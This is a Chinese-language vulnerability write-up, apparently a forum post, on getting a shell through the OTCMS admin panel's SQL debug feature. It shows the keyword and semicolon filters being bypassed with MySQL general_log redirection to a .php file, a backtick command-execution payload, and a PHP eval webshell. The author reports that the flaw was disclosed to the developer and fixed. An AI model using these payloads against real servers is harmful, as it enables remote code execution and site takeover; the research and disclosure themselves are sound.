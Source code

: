 ### 后台SQL getshell

登录后台之后，选择管理员专区=&gt;程序文件检查=&gt;SQL语句调试，能够直接进行SQL命令的执行，随便输入一条查询某张表中数据的SQL语句，BurpSuite抓包

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d8bf15f5ae0d91fe878769677c26c2abfd1e8373.png)

放包，直到找到如下的API接口的数据包，可以看到`sqlContent`处为查询的sql语句，看到这的直接想法就是直接写入shell

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c0dbeea3a26e7f83b048d0cf30e7f19f28b3f529.png)

先用下面的poc打了一发

```php
select <?php phpinfo();?> into outfile "D://phpStudy//www//OTCMS//xxx.php"
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-203e4af665dd6e93b90451b7f8713bb81ba1616e.png)

可以看到过滤了`into outfile`，根据路径直接来看一下源代码  
`OTCMS/admin/sysCheckFile_deal.php#1348`

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1b5ca3ba9e887525d5d4a56d080ed9b46f8b565f.png)

首先会对输入的内容进行一个长度校验，如果输入为空就会返回对应的错误信息；之后会对我们输入的内容进行一个大小写转换，这就没办法利用大小写进行一个关键字的绕过了；之后对输入内容进行指定关键词的匹配，如果匹配到了`into outfile`就会直接报错，执行流程也就不会往下走，就算没有匹配到，也会对16进制的标识符0x进行查找匹配，所以利用`into outfile`写入shell的路子基本上就绝了  
先接着看流程，在1361行，会对`userpwd`进行一个哈希加密，`MB_uerKey`是储存在数据库当中的，对输入的`pwd`进行一次`MD5`加密之后和`key`拼接再一次`MD5`加密，然后对我们执行SQL语句时输入的校验登录密码的值进行一个比较，不相等就报错

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d3d9420dade5154ea8c32985702f0779164c1ca3.png)

下面还有一个匹配分号的过滤，所以如果能够写马，这里就需要用到进制绕过，那么上面为什么会对16进制的标识符进行一个过滤也就能解释的通了。

#### phpmyadmin的启发

本以为到这里就结束了，没办法了，但是不得不说，真的是灵光一闪，想到了`phpmyadmin getshell`的几种方式，其中之一就是通过查询是否开启日志，并且查看是否有权限开启，并指定日志的存储路径来`getshell`，那么这里也可以进行相同的尝试；我们可以通过开启数据库日志，并指定日志文件，那么其实每条SQL语句都会被写入到日志文件当中，那么也就可以`getshell`了

```php
SET GLOBAL general_log='on'
SET GLOBAL general_log_file='C:/phpStudy/www/xxx.php'//指定的文件路径，这里实战中遇到的话，就需要对其绝对路径进行一个猜测了
```

成功在指定路径下创建了日志文件

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c947e59aa07efab0ad5ff9c2bb81836fe267a4f0.png)

就在准备写入shell的时候突然想到，分号还是会被匹配到，需要换一种形式，并且之前看过一篇文章也提到了分号的问题，找了找，可以用函数调用的形式执行phpinfo

```php
select <?php if(phpinfo()){}?>
select <?php while(phpinfo()){}?>
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2a6b50f1831438a23323d5618b354c648496e323.png)

成功写入了，访问一下指定的日志文件

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a6460710687f3394540b9e008a37ed8a6d076499.png)

可以看到`phpinfo`已经成功执行了，但是到这里还是没有办法写入`shell`，还是需要对`payload`进行修改，想到了反引号在`php`中相当于命令执行函数，那么也许并不需要分号进行闭合，清空一下日志文件，执行以下`paylaod`，可以看到成功进行了命令执行并输出了结果，能够命令执行那么就简单了，直接反弹`shell`，之后还可以通过反弹的`shell`再进行`shell`的写入

```php
select '<?php echo `whoami`?>'
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-62688919e425c818755a2367add0310dd461dce4.png)

到这里其实已经可以命令执行了，但是还有一个问题，php的一句话shell，最后面真的需要分号进行闭合才能够执行么？可能走到了误区，平时写shell都是那么写的，想当然觉得没有分号就不能够执行，那就本地先试一下吧

```php
//shell.php
<?php eval($_POST[1])?>
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e448da5960fc004d05322cab52a74597b62f4bee.png)

结果显而易见是可以成功执行的，那么不难理解php中分号作为分隔符，只要shell后面没有其他的内容，那么有没有分号都是一样的，那么这里的分号匹配对我们来说并没有任何影响，那就直接写入shell

```php
select '<?php eval($_POST[1])?>'
```

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-bb3a5e0c1d2296c217a0eb2f13ca611147c29492.png)

### 后记

当时这个也是困扰了许久因为分号的问题，后面还是大哥的提醒去试试看，不仅成功getshell，也是走出了之前形成的一个误区，收获多多。

### PS

这个漏洞已经修复了，当时上交CNVD，不收，直接反馈给了CMS开发，前两天跟开发聊了聊也是已经在新出的版本修复了，开发当时还想送我点CMS的插件币，可惜也不用这个CMS，还是希望这些更新及时的CMS能够更好的发展下去。